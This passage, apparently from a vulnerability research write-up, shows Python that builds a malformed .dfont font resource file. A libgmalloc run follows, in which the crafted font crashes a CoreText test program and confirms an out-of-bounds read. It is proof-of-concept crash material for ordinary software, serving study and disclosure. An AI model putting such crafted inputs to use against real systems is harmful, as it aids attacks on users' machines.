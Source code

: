 ```py
res_map += b"\x00\x00\x00"  # offset from res data start to this res data
res_map += p32(0)           # handle to resource

# res name (17 bytes)
res_map += p8(4)
res_map += b"GGWP"

res_map_offset = res_data_offset + res_data_len
res_map_len = len(res_map) + 16     # add 16 for res header later

res_header = b""
res_header += p32(res_data_offset)
res_header += p32(res_map_offset)
res_header += p32(res_data_len)
res_header += p32(res_map_len)

res_map = res_header + res_map

with open("myfont.dfont", "wb") as out:
    out.write(res_header)
    out.write(b"A" * 24)    # padding needed by the program
    out.write(res_data)
    out.write(res_map)
```

```sh
DYLD_INSERT_LIBRARIES=/usr/lib/libgmalloc.dylib ./main myfont.dfont
GuardMalloc[main-13531]: Allocations will be placed on 16 byte boundaries.
GuardMalloc[main-13531]:  - Some buffer overruns may not be noticed.
GuardMalloc[main-13531]:  - Applications using vector instructions (e.g., SSE) should work.
GuardMalloc[main-13531]: version 064535.38
2021-09-14 03:09:28.391 main[13531:102250] myfont.dfont -- file:///Users/daniellimws/coretext/
[1]    13531 segmentation fault  DYLD_INSERT_LIBRARIES=/usr/lib/libgmalloc.dylib ./main myfont.dfont
```

With libgmalloc, the OOB read can be confirmed.
